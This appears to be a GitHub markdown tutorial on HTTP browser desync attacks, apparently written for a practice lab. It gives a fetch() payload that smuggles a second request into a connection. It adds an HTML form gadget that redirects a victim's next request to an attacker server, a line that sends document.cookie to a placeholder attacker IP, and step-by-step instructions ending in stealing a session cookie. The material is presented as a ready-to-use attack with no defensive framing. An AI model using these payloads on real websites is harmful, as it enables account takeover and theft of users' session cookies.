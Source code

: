 # Browser Desync

## HTTP Browser Desync Attack

#### In a Browser Desync attack, the attacker aims to take control of a victim's account by exploiting vulnerabilities in a web application's user connection system.

#### This attack occurs in two steps:

**1) The initial request, appearing legitimate, is intended to disrupt the user request queue by introducing an arbitrary request.**

**2) Once the connection pool is compromised, the very next valid request will be replaced by the arbitrary request initiated in the previous step.**

#### Straightforward payload example:

    fetch('http://MACHINE\_IP:5000/', { method: 'POST', body: 'GET /redirect HTTP/1.1\r\nFoo: x', mode: 'cors',})

#### Write this JavaScript Payload in your browser command line that you can write JS

#### Command breakdown:

**1) http://MACHINE\_IP = This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.**

**2) { method: 'POST' } = The method parameter specifies the HTTP method for the request. Here, it's set to 'POST'.**

**3) { body: 'GET /redirect HTTP/1.1\r\nFoo: x' } = In the body, there is the second request that is going to be injected into the queue.**

**4) { mode: 'cors' } = This flag triggers an error when visiting the 404 web page and avoids following the redirect.**

## Browser Desync exploit chaining XSS

#### One potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.

#### Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim.

#### We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

    <form id="btn" action="http://MACHINE\_NAME.COM/" method="POST" enctype="text/plain"> <textarea name="GET http://YOUR\_IP HTTP/1.1 AAA: A">placeholder1 <button type="submit">placeholder2

    <btn.submit()&#x20;>

#### We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request.

#### Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.

#### To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

#### To do so, we can set up a rogue server by serving a route with a malicious payload like fetch('http://YOUR\_IP/' + document.cookie);

#### Steps to exploit a vulnerable application:

**1) Use straightforward payload to test for browser desync vulnerability**

**2) Type in the form included to the vulnerable part of the application**

**3) 

    sudo python3 smugglingserver.py**

**4) 

    sudo python3 -m http.server 8080**

**5) Send the request**

**6) After one minute or so, we steal the user's session cookie**
